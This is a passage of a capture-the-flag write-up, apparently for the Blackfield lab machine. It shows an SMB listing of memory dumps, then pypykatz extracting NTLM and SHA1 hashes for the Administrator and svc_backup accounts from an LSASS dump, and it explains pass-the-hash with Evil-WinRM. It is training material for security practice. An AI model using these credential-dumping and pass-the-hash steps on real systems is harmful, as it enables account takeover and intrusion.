 Looking around the various directories we can see that they contain various forensic evidence like command output and memory captures. The one thing that stands out is we have a memory capture of the LSASS process in the `lsass.zip` file:

```
smb: \> ls memory_analysis\
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
```

LSASS is the Local Security Authority Subsystem Service in Windows that handles authentication and security policies. Basically, it holds all sorts of authentication information in its memory space.

After downloading and extracting the file to our local Kali VM we'll use the pypykatz tool to extract the credentials from the memory dump. Pypykatz is a Python implementation of Mimikatz.

```
snowscan@kali:~/htb/blackfield_demo$ unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP
  
snowscan@kali:~/htb/blackfield_demo$ pypykatz lsa minidump lsass.DMP |more
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

We have both the **Administrator** and **svc_backup** user's NTLM hash. To connect to a Windows machine without knowning the account password we can use the Pass-The-Hash technique which basically just uses the NTLM hash material as authentication. Various tools in the Impacket suite like wmiexec, smbexec and psexec support PTH but here we'll instead connect with Evil-WinRM, an WinRM client that supports PTH along with other nice features like AMSI bypass and upload/download functionality.

Unfortunately, it seems that the Administrator has been changed since the memory dump was taken and we can't connect with the hash we got:
